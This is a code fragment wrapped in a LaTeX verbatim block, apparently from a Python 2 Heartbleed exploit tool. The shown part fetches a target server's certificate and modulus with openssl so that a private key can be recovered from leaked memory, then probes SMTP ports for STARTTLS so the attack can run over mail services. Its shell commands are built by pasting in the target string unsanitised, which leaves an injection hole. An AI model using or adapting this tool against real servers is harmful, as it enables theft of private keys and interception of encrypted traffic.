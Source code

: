 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{verbatim}
            if x == 0 and opts.extractkey:
                print "Attempting to extract private key from returned data..."
                if not os.path.exists('./hb-certs'):
                    os.makedirs('./hb-certs')
                print '\nGrabbing public cert from: ' + targ + ':' + str(port) + '\n'
                os.system('echo | openssl s_client -connect ' + targ + ':' + str(port) + ' -showcerts | openssl x509 > hb-certs/sslcert_' + targ + '.pem')	
                print '\nExtracting modulus from cert...\n'
                os.system('openssl x509 -pubkey -noout -in hb-certs/sslcert_' + targ + '.pem > hb-certs/sslcert_' + targ + '_pubkey.pem')
                output = os.popen('openssl x509 -in hb-certs/sslcert_' + targ + '.pem -modulus -noout | cut -d= -f2')
                modulus = output.read()

            s = conn(targ, port)
            if not s:
                continue

            # send starttls command if specified as an option or if common smtp/pop3/imap ports are used
            if (opts.starttls) or (port in {25, 587, 110, 143, 21}):        
                stls = False
                atls = False

                # check if smtp supports starttls/stls
                if port in {25, 587}:
                    print 'SMTP Port... Checking for STARTTLS Capability...'
                    check = s.recv(1024)
                    s.send("EHLO someone.org\n")
                    sys.stdout.flush()
                    check += s.recv(1024)
                    if opts.verbose:
                        print check

                    if "STARTTLS" in check:
                        opts.starttls = True
                        print "STARTTLS command found"

                    elif "STLS" in check:
                        opts.starttls = True
                        stls = True
                        print "STLS command found"

                    else:
                        print "STARTTLS command NOT found!"
                        print '##################################################################'
                        return


\end{verbatim}
\end{document}
